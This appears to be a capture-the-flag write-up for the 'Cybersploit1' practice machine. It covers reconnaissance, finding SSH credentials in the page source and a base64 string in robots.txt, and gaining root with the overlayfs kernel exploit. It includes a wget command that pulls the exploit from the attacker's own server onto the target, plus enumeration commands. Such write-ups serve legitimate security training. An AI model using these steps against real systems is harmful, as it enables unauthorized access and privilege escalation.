




# Cybersploit1
Points - 5  
Difficulty - Easy
---

As always we first start with scanning the  ip address      
```
$ nmap -A ip_address
```


There was not much interesting in the ports.        
Even with dirbuster only robots.txt was found. 

Checking the source-code of the main site we find a username in the comments.       
         
Its most likely the username for the SSH.       


Checking the robots.txt we find an encoded string.      
          
It looked like a base64 encoded string.          
Use [cyber-chef](), its one of the nicer tools for encryption and decryption.       
Decoding it we find a string which I thought was a flag but it was not being accepted as a flag in the submissions.      

So I thought it maybe the password for the SSH login and tried to login, it worked!!            

After we login throught the SSH we can find the first flag in the local directory.      
I checked for user privileges, kernel version and the OS version using          
```
$ sudo -l
$ uname -a
$ cat /etc/issue
```
We were not allowed to run as sudo on this machine.         

The kernel and the OS version were old, so I googled for an exploit for the kernel version.         
And found [this](https://www.exploit-db.com/exploits/37292) on exploit-db, this exploit is called overlayfs.        

Download it onto your local machine and host a temporary python server from there to download onto the target machine.      

You can setup a local python server in the directory where you downloaded the exlploit using
```
$ python3 -m http.server port
```
Download the file onto the /tmp directory
```
wget http://your_ip_address:port/37292.c
```     
The instructions to compile and execute the file are given in the same file, follow them.        

        
And now we are root!!      
     
Navigate to root directory to find the root flag.       
